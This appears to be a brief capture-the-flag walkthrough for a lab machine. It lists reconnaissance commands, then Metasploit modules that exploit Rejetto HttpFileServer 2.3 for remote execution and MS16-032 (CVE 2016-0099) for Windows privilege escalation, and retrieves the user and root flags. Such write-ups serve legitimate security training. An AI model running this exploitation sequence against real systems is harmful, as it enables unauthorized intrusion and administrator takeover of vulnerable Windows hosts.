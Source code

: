 ping 10.10.10.8
whatweb 10.10.10.8

nmap 10.10.10.8 -> HttpFileServer 2.3

msfconsole
search httpfileserver 2.3

use exploit/windows/http/rejetto_hfs_exec
set lport, lhost and rhost
run

cd /Users/kostas
get user.txt

CVE 2016-0099 (https://www.exploit-db.com/exploits/39719)
search MS16-032

use windows/local/ms16_032_secondary_logon_handle_privesc
set lport, lhost and session
run

cd Administrator/Desktop
get root.txt